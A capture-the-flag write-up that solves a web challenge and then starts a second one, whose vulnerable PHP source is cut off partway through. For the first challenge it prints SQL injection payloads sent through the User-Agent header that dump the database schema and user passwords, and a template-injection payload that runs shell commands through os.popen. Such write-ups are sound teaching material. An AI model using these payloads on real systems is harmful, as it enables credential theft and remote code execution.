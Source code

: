 ![](https://github.com/wjddnjs33/image/blob/main/NahamConCTF/agenttester/1.png?raw=true)

Go into the challenge and u will see a login form. So, after register, login.

![](https://github.com/wjddnjs33/image/blob/main/NahamConCTF/agenttester/2.png?raw=true)

I was login and saw `User-Agent` input form.

![](https://github.com/wjddnjs33/image/blob/main/NahamConCTF/agenttester/3.png?raw=true)

You can see that an error occurs because single quotes are sent as the value of `User-Agent`.

```
' union select 'a', group_concat(sql) from sqlite_master --
' union select 'a', group_concat(username) from user --
' union select 'a', group_concat(password) from user --

admin account
username : admin
password : *)(@skdnaj238374834**__**=
```
Using the payload above, I was able to get an admin account. Now, you can login as an administrator and read the environment variable using the SSTI vuln.

```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
Let's use the payload above.

![](https://github.com/wjddnjs33/image/blob/main/NahamConCTF/agenttester/6.png?raw=true)
If you run the `ls` command using the payload above, you can see that it works.

![](https://github.com/wjddnjs33/image/blob/main/NahamConCTF/agenttester/5.png?raw=true)
Finally, when you read all the environment variables using the `export` command, you can see that there are flag in the environment variables.

> FLAG : flag{fb4a87cfa85cf8c5ab2effedb4ea7006}

---
## <span style="color:#21C587"></span> (Web) Cereal and Milk [491 pts]

> Cereal and Milk challenge is get the flag using simple php object injection

```php
// index.php
<?php

include 'log.php';

class CerealAndMilk
{
    public $logs = "request-logs.txt";
    public $request = '';
    public $cereal = 'Captain Crunch';
    public $milk = '';
    

    public function processed_data($output)
    {
        echo "Deserilized data:<br> Coming soon.";
       # echo print_r($output);
        
    }

    public function cereal_and_milk()
```